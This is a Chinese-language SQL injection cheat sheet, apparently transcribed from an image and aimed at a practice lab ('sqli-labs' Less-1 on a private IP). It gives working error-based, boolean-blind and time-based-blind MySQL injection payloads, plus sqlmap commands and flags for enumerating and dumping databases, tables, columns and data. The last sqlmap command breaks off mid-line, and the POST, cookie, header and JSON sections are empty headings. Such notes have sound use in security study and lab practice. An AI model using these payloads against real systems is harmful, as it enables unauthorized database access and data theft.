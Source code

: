 ##### 报错注入
前提：页面会显示数据库报错信息。
得到报错信息、获取所有数据库名、获取指定数据库所有表名、获取指定数据库指定表中所有字段名、获取具体数据。

数据库名
?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1) --+
##### 布尔盲注
情况：没有显示位、没有报错信息，但是有SQL语句执行错误信息输出的场景，仅仅通过报错这一行为去判断SQL注入语句是否执行成功。

数据库长度
?id=1' and (length(database()))>7 --+	
?id=1' and (length(database()))>8 --+
##### 时间盲注
前提：页面上没有显示位，也没有输出SQL语句执行错误信息。 正确的SQL语句和错误的SQL语句返回页面都一样，但是加入sleep(5)条件之后，页面的返回速度明显慢了5秒。
缺点：因为是通过sleep()函数影响的响应时间来判断语句是否执行，所以比布尔盲注更慢，真实环境下时间盲注一个注入点需要跑大概五六个小时。

猜解数据库
数据库个数
?id=1 and if((select count(schema_name) from information_schema.schemata)=9,sleep(5),1)

第一个数据库名有多少个字符
?id=1 and if((select length(schema_name) from information_schema.schemata limit0,1)=18,sleep(5),1)
##### sqlmap注入
基础探测命令
联合查询注入：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=U -v 3
报错注入：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=E -v 3
布尔盲注：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=B -v 3
时间盲注：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=T -v 3
爆破数据
--current-db 当前使用的数据库
--dbs 列出数据库信息
-D 指定数据库，爆破指定数据库中的表
-D 数据库名 --tables
-T 指定数据表名，爆破指定表中的字段
-D 库名 -T 表名 --columns
-C 指定字段名，爆破具体数据
--dump 将数据导出、转储

指定库、表、字段，查询具体数据
.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=T -v 3 -D 

##### post注入
用 # 注释
##### cookie注入
##### HTTP头部注入
##### json注入
